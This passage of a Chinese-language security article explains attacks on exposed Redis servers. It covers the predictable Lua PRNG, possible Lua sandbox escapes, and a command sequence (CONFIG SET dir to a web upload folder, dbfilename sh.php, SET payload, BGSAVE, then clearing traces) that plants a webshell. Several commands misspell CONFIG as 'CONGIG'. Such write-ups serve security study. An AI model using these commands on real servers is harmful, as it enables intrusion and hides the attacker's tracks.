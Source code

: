 * * *

Lua 使用完全可以预测的”随机数”，细节在 scripting.c 的 evalGenericCommand()函数中

```
/* We want the same PRNG sequence at every call so that our PRNG is* not affected by external state. */
redisSrand48(0); 
```

每一次 Lua 脚本调用 math.random()函数产生的随机数都是相同数字流：

```
0.17082803611217
0.74990198051087
0.09637165539729
0.87046522734243
0.57730350670279
[...] 
```

## 0x0b 远程命令执行

* * *

为了在开放的 Redis 服务器上进行命令执行，有以下三种情况：
首先能够修改底层的字节码,能够进行虚拟机的逃逸。(Lua 的一个例子 https://gist.github.com/corsix/6575486)；或者是绕过全局保护并且试图访问一些有趣的函数。

绕过全局保护是很轻松的(stackoverflow 上有一个例子

http://stackoverflow.com/questions/19997647/script-attempted-to-create-global-variable)。然而这么有趣的模块并不能加载,顺便提一下，在这里还有很多有趣的东西(http://lua-users.org/wiki/SandBoxes)。

第三种情况相对来说比较容易实现，将一个半控制的文件导出到硬盘中，在 web 的根目录中，通过备份得到一个 webshell 或者覆盖一个 shell 脚本。唯一的区别是文件名和 payload，导出的方法都是一样的，但是应该注意的是保存日志文件的位置在启动之后是不能修改的。事实上，这个数据库中的内容会隔一段时间备份到硬盘的，以便于数据恢复，何时备份取决于配置文件或者 BGSAVE 命令

以下是常用的几条命令:
-修改备份文件的位置

```
CONFIG SET dir /var/www/uploads
CONGIG SET dbfilename sh.php 
```

-把 payload 插入数据库

```
SET payload “could be php or shell or whatever” 
```

-把数据导出到硬盘

```
BGSAVE 
```

-清除痕迹

```
DEL payload
CONFIG SET dir /var/redis
CONGIG SET dbfilename dump.rdb 
```

